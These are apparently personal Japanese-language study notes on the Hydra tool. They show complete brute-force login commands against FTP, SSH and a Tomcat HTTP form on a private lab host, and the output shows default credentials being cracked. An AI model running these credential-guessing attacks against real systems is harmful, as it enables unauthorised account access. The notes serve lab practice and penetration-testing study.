 # hydra

## FTP

```
# hydra -L usernames.txt -P passlist.txt -t 8 172.17.220.5 ftp
```

-L: ユーザー名リスト

-P: パスワードリスト

-t: 並列実行(FTPだと16くらいまでいけるらしい、SSHは4以上で警告がでる)

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-14 01:07:59
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 8 tasks per 1 server, overall 8 tasks, 113718350424 login tries (l:86772/p:1310542), ~14214793803 tries per task
[DATA] attacking ftp://172.17.220.5:21/
[21][ftp] host: 172.17.220.5   login: msfadmin   password: msfadmin
[STATUS] 1310679.00 tries/min, 1310679 tries in 00:01h, 113717039745 to do in 1446:02h, 8 active
```

## SSH

ポート番号がデフォルトと異なる場合は `procotol://hostname:port` とする

```
hydra -L usernames.txt -P passlist.txt -t 4 ssh://172.17.220.5:22222
```

```
root@sec-linux:~/wordlist# hydra -L usernames.txt -P passlist.txt -t 4 172.17.220.5 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-14 01:10:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 113718350424 login tries (l:86772/p:1310542), ~28429587606 tries per task
[DATA] attacking ssh://172.17.220.5:22/
[22][ssh] host: 172.17.220.5   login: msfadmin   password: msfadmin
```

## http-form-post

httpのフォームで認証するサイトの場合、POST先URL,formにセットする変数と認証不可時に返却される文字列がわかればhydraが使える

あらかじめWiresharkとかでPOST先のURLと変数、認証不可時に返却される文字列を調べておく

```
# hydra -L testUsername.txt -P testPassword.txt \
  -s 8180 172.17.220.5 http-form-post \
  "/admin/j_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"
```

-L: ユーザー名リスト

-P: パスワードリスト

-s: ポート

ホストネームとサービスは位置引数で指定する。 フォーム認証の場合、`http-form-post`

"POST先のURL:Formの変数(key=value&key=valueの形式で指定. hydraのuser, passwordはそれぞれ^USER^ ^PASS^で指定できる):認証不可時の文字列(1行完全一致)"

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-16 13:04:37
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking http-post-form://172.17.220.5:8180/admin/j_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password
[8180][http-post-form] host: 172.17.220.5   login: tomcat   password: tomcat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-16 13:04:38

```